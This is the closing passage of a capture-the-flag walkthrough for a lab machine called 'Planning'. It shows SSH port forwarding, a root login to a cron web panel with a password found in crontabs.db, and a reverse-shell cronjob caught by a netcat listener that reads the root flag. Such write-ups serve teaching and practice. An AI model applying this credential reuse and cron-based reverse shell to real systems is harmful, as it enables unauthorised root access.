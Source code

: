 ```bash
└─$ ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68

enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun  7 03:34:18 AM UTC 2025

  System load:           0.05
  Usage of /:            74.7% of 6.30GB
  Memory usage:          44%
  Swap usage:            30%
  Processes:             340
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.68
  IPv6 address for eth0: dead:beef::250:56ff:feb0:70b6

  => There are 3 zombie processes.

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun 7 03:34:19 2025 from 10.10.14.38
enzo@planning:~$ RioTecRANDEntANT!

```

After that we will access http://localhost:8000/ . You will be asked to provide username and password to login. We already have the password that we found on crontabs.db : P4ssw0rdS0pRi0T3c . For the username i guessed that it’s root and we are in !!!

![cron.png](attachment:4a329a32-fcc8-4895-a581-ba2c794d43b6:cron.png)

Let’s go and add our reverse shell as the new cronjob and then run it !!

![rev.png](attachment:c0d76073-4c01-4737-a6c2-386747050b7d:rev.png)

```bash
─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.68] 50052
bash: cannot set terminal process group (1172): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# cat /root/root.txt
cat /root/root.txt
f42d28cd86fa8faf34f74727f32b465c

```

Congratulations ! We just found our root flag.

And that was it for the Planning machine. Hope you enjoyed my walkthrough <3
